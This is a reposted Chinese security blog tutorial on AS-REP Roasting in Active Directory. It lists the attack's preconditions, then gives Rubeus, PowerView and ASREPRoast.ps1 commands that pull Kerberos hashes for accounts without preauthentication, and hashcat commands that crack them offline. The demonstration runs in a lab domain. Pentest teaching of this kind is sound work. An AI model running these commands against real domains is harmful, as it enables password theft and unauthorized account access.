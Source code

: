 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489128&idx=1&sn=dac676323e81307e18dd7f6c8998bde7&chksm=fc7812b5cb0f9ba3a63c447468b7e1bdf3250ed0a6217b07a22819c816a8da1fdf16c164fce2&scene=21#wechat_redirect)

作者：谢公子  

作者：谢公子

  

CSDN 安全博客专家，擅长渗透测试、Web 安全攻防、红蓝对抗。其自有公众号：谢公子学安全

免责声明：本公众号发布的文章均转载自互联网或经作者投稿授权的原创，文末已注明出处，其内容和图片版权归原网站或作者本人所有，并不代表安全 + 的观点，若有无意侵权或转载不当之处请联系我们处理，谢谢合作！

**欢迎各位添加微信号：qinchang_198231** 

**加入安全 + 交流群 和大佬们一起交流安全技术**

**AS-REP Roasting 攻击**  

AS-REP Roasting 是一种对用户账号进行离线爆破的攻击方式。但是该攻击方式利用比较局限，因为其需要用户账号设置 "Do not require Kerberos preauthentication(不需要 kerberos 预身份验证)" 。而该属性默认是没有勾选上的。

预身份验证是 Kerberos 身份验证的第一步 (AS_REQ & AS_REP)，它的主要作用是防止密码脱机爆破。默认情况下，预身份验证是开启的，KDC 会记录密码错误次数，防止在线爆破。关于 AS_REQ & AS_REP：[域内认证之 Kerberos 协议详解。](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488900&idx=3&sn=dc2689efec7757f7b432e1fb38b599d4&chksm=fc781159cb0f984f1a44668d9e77d373e4b3bfa25e5fcb1512251e699d17d2b0da55348a2210&scene=21#wechat_redirect)

当关闭了预身份验证后，攻击者可以使用指定用户去请求票据，此时域控不会作任何验证就将 TGT 票据 和 该用户 Hash 加密的 Session Key 返回。因此，攻击者就可以对获取到的 用户 Hash 加密的 Session Key 进行离线破解，如果破解成功，就能得到该指定用户的密码明文。

  

![图片](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXuyl4pT17hccmcCARV1LkQgHbSbAH9xO0BJtGeIOweTgMpdsNjkc56w/640?wx_fmt=gif)

  

**AS-REP Roasting 攻击条件**

*   域用户设置了 “Do not require Kerberos preauthentication(不需要 kerberos 预身份验证) ”
    
*   需要一台可与 KDC 进行通信的主机 / 用户
    

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXnZkAU5OSrSm1AudPlsAhIibwrglRQC1dOQiar5PucQUaO3eBnAxKz5Jg/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXuyl4pT17hccmcCARV1LkQgHbSbAH9xO0BJtGeIOweTgMpdsNjkc56w/640?wx_fmt=gif)

  

**普通域用户下**

方法一：使用 Rubeus.exe

  

1：使用 rubeus.exe 获得 Hash

```
Rubeus.exe asreproast
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXQYrvq2OwGiabyAXgHLUWH4sHGzUocqFH451CicTpSl2UOq6XScqnZOSg/640?wx_fmt=png)

  

2：使用 hashcat 对获得的 Hash 进行爆破

将 hash.txt 里面的除 Hash 字段其他的都删除，复制到 hashcat 目录下，并且修改为 hashcat 能识别的格式，在 $krb5asrep 后面添加 $23 拼接。

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFX3eVBSrs0OhWVWZ83WD7hJ2NIicAB3RmUkB3m7oJR0LDg1X73ERIjYTA/640?wx_fmt=png)

然后使用以下命令爆破

```
hashcat64.exe -m 18200 hash.txt pass.txt --force
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFX6oP4eYRXwxZKEGELE7mOpfplfLw384xW222XgqnMm5LRVHE3ibo3fvA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXYLdr8le2toyvNKSCtGyjm8LPh7bsPQREM2wvVYS2FwVTPQn5qlmbrQ/640?wx_fmt=png)

方法二：使用 powershell 脚本

  

1：使用 Empire 下的 powerview.ps1 查找域中设置了 "不需要 kerberos 预身份验证" 的用户

```
Import-Module .\powerview.ps1
 Get-DomainUser -PreauthNotRequired
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXfMZxzN9R9QthfaZ6ibWfrzwyjNOfchVDFOHZecnP7MJgcEWLziaajic2A/640?wx_fmt=png)

2：使用 ASREPRoast.ps1 获取 AS-REP 返回的 Hash

```
Import-Module .\ASREPRoast.ps1
Get-ASREPHash -UserName hack2 -Domain xie.com | Out-File -Encoding ASCII hash.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXLUBn3u3jViattByGllic9fpCXZibtapkUzP3qZwae4ysKxJnepHIPvjWA/640?wx_fmt=png)

3：使用 hashcat 对获得的 Hash 进行爆破

将 hash.txt 复制到 hashcat 目录下，并且修改为 hashcat 能识别的格式，在 $krb5asrep 后面添加 $23 拼接。然后使用以下命令爆破。

```
hashcat64.exe -m 18200 hash.txt pass.txt --force
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFX6oP4eYRXwxZKEGELE7mOpfplfLw384xW222XgqnMm5LRVHE3ibo3fvA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXYLdr8le2toyvNKSCtGyjm8LPh7bsPQREM2wvVYS2FwVTPQn5qlmbrQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXuyl4pT17hccmcCARV1LkQgHbSbAH9xO0BJtGeIOweTgMpdsNjkc56w/640?wx_fmt=gif)

  

**非域内机器**

1：对于非域内的机器，无法通过 LDAP 来发起用户名的查询。

2：所以要想获取 "不需要 kerberos 预身份验证" 的域内账号，只能通过枚举用户名的方式来获得。而 AS-REP Hash 方面。非域内的主机，只要能和 DC 通信，便可以获取到。使用 Get-ASREPHash，通过指定 Server 的参数即可

```
Import-Module .\ASREPRoast.ps1
Get-ASREPHash -UserName hack2 -Domain xie.com -Server 192.168.10.131 | Out-File -Encoding ASCII hash.txt
```

3：获取到 Hash 后，使用 hashcat 对其爆破，和上面一样，这里就不演示了。

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXuyl4pT17hccmcCARV1LkQgHbSbAH9xO0BJtGeIOweTgMpdsNjkc56w/640?wx_fmt=gif)

  

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXeFHD0DTqaBhq6AQCK1nXpGVXVDiaNpLl8KrnTMic7bHqcuNB5Ks7xIwA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFX8MkGQf1mCKFC3lzCZtDckiab5E4UErDkzQV8K9tSPdakVoDmMiaJ99hg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXjI4s20jhnATCoNN7eE5P9TMppg2IicMm9UctFvABQYFXSehicjT5QvKQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFjGibCQezQKY4NzE1WGn6FBCbq3pQVl0oONnYXT354mlVw0edib6X6flYib9JRTic4DTibgib15WZC7sDUA/640?wx_fmt=png)

[内网渗透 | 内网穿透工具 FRP 的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489057&idx=3&sn=f81ef113f1f136c2289c8bca24c5deb1&chksm=fc7812fccb0f9beaa65e5e9cf40cf9797d207627ae30cb8c7d42d8c12a2cb0765700860dab84&scene=21#wechat_redirect)  

[内网渗透（四） | 域渗透之 Kerberoast 攻击_Python](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488972&idx=1&sn=87a6d987de72a03a2710f162170cd3a0&chksm=fc781111cb0f98070f74377f8348c529699a5eea8497fd40d254cf37a1f54f96632da6a96d83&scene=21#wechat_redirect)  

[内网渗透（三） | 域渗透之 SPN 服务主体名称](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488936&idx=1&sn=82c127c8ad6d3e36f1a977e5ba122228&chksm=fc781175cb0f986392b4c78112dcd01bf5c71e7d6bdc292f0d8a556cc27e6bd8ebc54278165d&scene=21#wechat_redirect)  

[内网渗透（二） | MSF 和 CobaltStrike 联动](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488905&idx=2&sn=6e15c9c5dd126a607e7a90100b6148d6&chksm=fc781154cb0f98421e25a36ddbb222f3378edcda5d23f329a69a253a9240f1de502a00ee983b&scene=21#wechat_redirect)  

[内网渗透 | 域内认证之 Kerberos 协议详解](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488900&idx=3&sn=dc2689efec7757f7b432e1fb38b599d4&chksm=fc781159cb0f984f1a44668d9e77d373e4b3bfa25e5fcb1512251e699d17d2b0da55348a2210&scene=21#wechat_redirect)  

[内网渗透（一） | 搭建域环境](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488866&idx=2&sn=89f9ca5dec033f01e07d85352eec7387&chksm=fc7811bfcb0f98a9c2e5a73444678020b173364c402f770076580556a053f7a63af51acf3adc&scene=21#wechat_redirect)